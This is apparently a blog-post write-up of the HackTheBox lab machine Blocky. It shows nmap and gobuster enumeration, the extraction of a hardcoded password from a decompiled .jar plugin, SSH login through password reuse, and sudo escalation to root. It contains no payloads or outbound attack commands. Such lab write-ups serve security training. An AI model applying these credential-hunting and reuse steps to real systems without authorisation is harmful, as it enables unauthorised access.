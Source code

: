```yaml
---
layout: post
title: HackTheBox Blocky (10.10.10.37) Writeup
description: >
  Hackthebox Blocky Writeup
image: /assets/img/blocky.png
noindex: true
---
```


<center><h3>Summary</h3></center>

- Get credentials from a .jar file located in the <b>/plugins</b> directory
- Use the password found to ssh in the system as the user notch
- Run <b>sudo -l</b> to see that I can run commands as sudo
<br>

First I start with an nmap scan.
```
# Nmap 7.70 scan initiated Fri May 31 12:13:39 2019 as: nmap -sV -sC -T4 -oN BlockyNmap 10.10.
10.37
Nmap scan report for 10.10.10.37
Host is up (0.036s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 31 12:13:52 2019 -- 1 IP address (1 host up) scanned in 13.20 seconds
```
<br>

I look around and don't find much except for a post made by the user Notch. Next, I decide to run a gobuster
```
gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/16 15:04:36 Starting gobuster
===============================================================
/wiki (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
```
<br>
Navigating to the <b>/plugins</b> directory, you will see two files. Lets download them both to our host

![files.png](../../resources/b16bd8e7ed044d578db1107f5141d09e.png)

Both of the files are <b>.jar</b> files which means the contents need to be extracted. The command below will list the files inside the <b>.jar</b> file.

```
jar -tf BlockyCore.jar
```
I see that it lists a file

```
META-INF/MANIFEST.MF
com/myfirstplugin/BlockyCore.class
```
Lets extract that specific file.

```
jar xf BlockyCore.jar com/myfirstplugin/BlockyCore.class
```
Now to read the file I need to use the <b>javap</b> command.
```
javap -c com/myfirstplugin/BlockyCore.class
```
You should get the output below. If you read through the file you should see something like resembles credentials.

```
11: ldc           #18                 // String root <-----User
13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
16: aload_0
17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22 <-----Password
19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
```
<br>
Now first thing I tried was logging into the wordpress site but that didnt work. Next I tried ssh but it didnt work with the user <b>root</b>. I tried to ssh again but this time using the user <b>notch</b> and password <b>8YsqfCTnvxAUeduzjNSXe22</b> and it worked.

```
root@kali: ssh notch@10.10.10.37

The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.
notch@10.10.10.37's password:
Ilcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$
```
<br>
Now if I type <b>sudo -l</b> and enter the same password as before then you will see that I have sudo rights which means I can just grab both the user and root flags. The user flag is located at <b>/home/notch/user.txt</b> and the root is at <b>/root.root.txt</b>
<br><br><br>
